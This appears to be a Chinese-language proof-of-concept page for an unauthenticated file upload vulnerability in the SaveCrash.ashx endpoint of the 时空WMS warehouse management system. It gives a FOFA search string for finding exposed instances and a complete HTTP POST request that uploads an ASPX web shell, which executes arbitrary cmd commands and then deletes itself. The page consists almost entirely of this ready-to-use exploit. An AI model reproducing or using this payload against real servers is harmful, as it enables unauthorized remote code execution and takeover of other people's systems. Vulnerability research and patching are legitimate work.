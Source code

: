 # 时空WMS-仓储精细化管理系统SaveCrash.ashx文件上传漏洞

时空WMS-仓储精细化管理系统 SaveCrash.ashx 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
body="SKControlKLForJson.ashx"
```

## poc

```javascript
POST /crash/SaveCrash.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20241206215936354](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062159415.png)